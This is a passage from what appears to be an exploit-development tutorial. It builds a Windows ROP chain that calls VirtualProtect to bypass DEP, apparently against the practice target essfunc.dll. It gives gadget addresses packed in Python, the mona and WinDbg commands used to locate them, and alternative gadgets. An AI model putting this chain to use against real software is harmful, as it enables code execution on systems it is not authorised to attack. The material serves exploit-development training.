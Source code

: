 2. **Direct IAT pointer technique**:
```python
esi = struct.pack("<I", 0x76525760)  # pop esi; ret
esi += struct.pack("<I", 0x6250609c)  # VirtualProtect IAT
```

### 6.7 Setting up EAX (VirtualProtect pointer)

```python
# EAX - Point to VirtualProtect
eax = struct.pack("<I", 0x75ee5082)  # POP EAX # RETN [KERNELBASE.dll]
eax += struct.pack("<I", 0x6250609c)  # ptr to &VirtualProtect() [IAT essfunc.dll]
```

**Current Value**: 0x6250609c (VirtualProtect IAT entry)

**Reason**: When ESI (which contains JMP [EAX]) executes, it will jump to the address pointed to by EAX, which is VirtualProtect in the IAT.

**How we found the gadget**:
```
!py mona find -type instr -s "pop eax" -m "kernelbase" -cpb "\x00"
```

**How we found the IAT entry**:
```
!dh essfunc -f
dps essfunc+0x6000 L100
```

**Alternative Options**:
1. **MOV EAX technique**:
```python
eax = struct.pack("<I", 0x75f10ada)  # mov eax, 0x6250609c; ret
```

2. **Arithmetic calculation**:
```python
eax = struct.pack("<I", 0x77cef70e)  # xor eax, eax; ret
eax += struct.pack("<I", 0x75ee0982)  # add eax, 0x6250609c; ret
```

### 6.8 Using PUSHAD to call VirtualProtect

```python
# PUSHAD to call VirtualProtect
pushad = struct.pack("<I", 0x775d6f67)  # PUSHAD # RETN [msvcrt.dll]
```

**Current Value**: 0x775d6f67 (PUSHAD; RET instruction)
**Reason**: PUSHAD pushes all 8 general-purpose registers onto the stack in a specific order, setting up the parameter stack for VirtualProtect.

**How we found it**:
```
!py mona find -type instr -s "pushad # ret" -m "msvcrt" -cpb "\x00"
```

**Alternative Options**:
1. **PUSHAD from another module**:
```python
pushad = struct.pack("<I", 0x76081981)  # pushad; ret [KERNEL32.dll]
```
